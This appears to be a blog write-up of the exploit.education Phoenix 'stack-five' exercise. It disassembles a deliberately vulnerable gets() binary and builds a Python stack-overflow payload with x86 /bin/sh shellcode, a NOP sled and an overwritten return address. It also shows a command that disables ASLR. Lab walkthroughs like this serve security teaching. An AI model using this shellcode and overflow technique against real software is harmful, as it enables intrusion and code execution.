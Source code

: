 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Five"
date: "2019-10-14 22:45:00 +0300"
categories: exploit-education phoenix x86
---
```


{% highlight shell %}
rabin2 -I /opt/phoenix/i486/stack-five 
arch     x86
baddr    0x8048000
binsz    3249
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

As can be seen, the same information about the binary as in the previous levels is presented here as well.

To disassemble the binary, `radare2` comes in handy.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-five
{% endhighlight %}

{% highlight nasm %}
[0x080482f0]> aas
Cannot analyze at 0x08048520
[0x080482f0]> afl
0x08048294    1 17           sym._init
0x08048440    7 277  -> 112  sym.frame_dummy
0x080484e0    5 49           sym.__do_global_ctors_aux
0x08048511    1 12           sym._fini
0x080483c0    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   41 476  -> 554  sym..interp
0x080482f0    1 62           entry0
0x080482e0    1 6            sym.imp.__libc_start_main
0x0804856c    1 14           loc.__GNU_EH_FRAME_HDR
0x08048590    3 34           sym..eh_frame
0x080485cc    1 41           obj.__EH_FRAME_BEGIN
0x08048330    4 49   -> 40   sym.deregister_tm_clones
0x08048618    1 4            obj.__FRAME_END
0x08048485    1 30           sym.start_level
0x080482c0    1 6            sym.imp.gets
0x080484a3    1 51           main
0x080482d0    1 6            sym.imp.puts
[0x080482f0]> s main
[0x080484a3]> pdf
/ (fcn) main 51
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4h @ ebp-0x4
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048324
|           0x080484a3      8d4c2404       lea ecx, [arg_4h]
|           0x080484a7      83e4f0         and esp, 0xfffffff0
|           0x080484aa      ff71fc         push dword [ecx - 4]
|           0x080484ad      55             push ebp
|           0x080484ae      89e5           mov ebp, esp
|           0x080484b0      51             push ecx
|           0x080484b1      83ec04         sub esp, 4
|           0x080484b4      83ec0c         sub esp, 0xc
|           0x080484b7      6820850408     push str.Welcome_to_phoenix_stack_five__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048520 ; "Welcome to phoenix/stack-five, brought to you by https://exploit.education"
|           0x080484bc      e80ffeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484c1      83c410         add esp, 0x10
|           0x080484c4      e8bcffffff     call sym.start_level
|           0x080484c9      b800000000     mov eax, 0
|           0x080484ce      8b4dfc         mov ecx, dword [var_4h]
|           0x080484d1      c9             leave
|           0x080484d2      8d61fc         lea esp, [ecx - 4]
\           0x080484d5      c3             ret
[0x080484a3]> s sym.start_level
[0x08048485]> pdf
/ (fcn) sym.start_level 30
|   sym.start_level ();
|           ; var int32_t var_88h @ ebp-0x88
|           ; CALL XREF from main @ 0x80484c4
|           0x08048485      55             push ebp
|           0x08048486      89e5           mov ebp, esp
|           0x08048488      81ec88000000   sub esp, 0x88
|           0x0804848e      83ec0c         sub esp, 0xc
|           0x08048491      8d8578ffffff   lea eax, [var_88h]
|           0x08048497      50             push eax
|           0x08048498      e823feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0804849d      83c410         add esp, 0x10
|           0x080484a0      90             nop
|           0x080484a1      c9             leave
\           0x080484a2      c3             ret
{% endhighlight %}

The infamous `gets` call is once again used. This level is all about shellcoding and that's why the buffer has a size of 136 bytes.

The way of shellcoding is pretty simple. The contents of the payload are listed below:
1. NOP sled, so that there is some flexibility as to what the value of the return address should be.
1. Shellcode, considering that this is our objective.
1. NOP padding.
1. Return address.

Something noteworthy is that in the case of using the deb package, instead of the virtual machines, ASLR needs to be disabled manually.

{% highlight shell %}
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
{% endhighlight %}

To overwrite the return address, the input needs to have 136 bytes to fill the buffer, 4 more bytes to override the previous stack frame's pointer and, lastly, 4 more bytes to overwrite the return address.

{% highlight python %}
#!/usr/bin/env python3
import os

nop_sled = b'\x4e'*80
shellcode = b'\x53'*35
nop_padding = b'\x50'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x52'*4

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-five -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7fc5d4b]> aas
Cannot analyze at 0x08048520
[0xf7fc5d4b]> db 0x08048498
[0xf7fc5d4b]> dc
Welcome to phoenix/stack-five, brought to you by https://exploit.education
hit breakpoint at: 8048498
[0x08048498]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xffffd340
edx = 0x00000000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd360
ebp = 0xffffd3f8
eip = 0x08048498
eflags = 0x00000292
oeax = 0xffffffff
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0xf7ffb1e0 0xffffd3bf 0x00000001 0x00000000  ................
0xffffd380  0x00b0bc7e 0x00000001 0x00960026 0x00000000  ~.......&.......
0xffffd390  0x0000000a 0xf7ffb1e0 0x00000000 0xf7fb5ab8  .............Z..
0xffffd3a0  0xf7ffb1e0 0xffffd3bf 0x00000001 0x0000000a  ................
0xffffd3b0  0x08048520 0x08048511 0x00000000 0x0afb7038   ...........8p..
0xffffd3c0  0xf7fb5a5b 0xf7ffb000 0xf7ffb1e0 0xf7fb8958  [Z..........X...
0xffffd3d0  0xf7ffb1e0 0x0000000a 0x00000000 0x00000000  ................
0xffffd3e0  0xf7ffb000 0xffffd494 0x00000001 0x080484c1  ................
0xffffd3f0  0x08048520 0x00000000 0xffffd408 0x080484c9   ...............
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x080484c9                                   ....
[0x08048498]> dso
hit breakpoint at: 804849d
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd380  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd390  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3a0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3b0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3c0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3d0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3e0  0x50535353 0x50505050 0x50505050 0x50505050  SSSPPPPPPPPPPPPP
0xffffd3f0  0x50505050 0x50505050 0x50505050 0x52525252  PPPPPPPPPPPPRRRR
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x52525252                                   RRRR
[0x08048498]> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x52525252 code=1 ret=0
[0x52525252]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd400
ebp = 0x50505050
eip = 0x52525252
eflags = 0x00010282
oeax = 0xffffffff
{% endhighlight %}

Now, it is pretty easy to modify the script so that some shellcode will be executed.

{% highlight python %}
#!/usr/bin/env python3
import os

nop_sled = b'\x90'*80
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
nop_padding = b'\x90'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x90\xd3\xff\xff'

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
$ cat pattern - | /opt/phoenix/i486/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
test
{% endhighlight %}

## Conclusion
This level introduced a simple shellcoding challenge that was possible thanks to a call to `gets`, which does not restrict the size of bytes to be read, and also a buffer that had a size big enough to contain the shellcode.
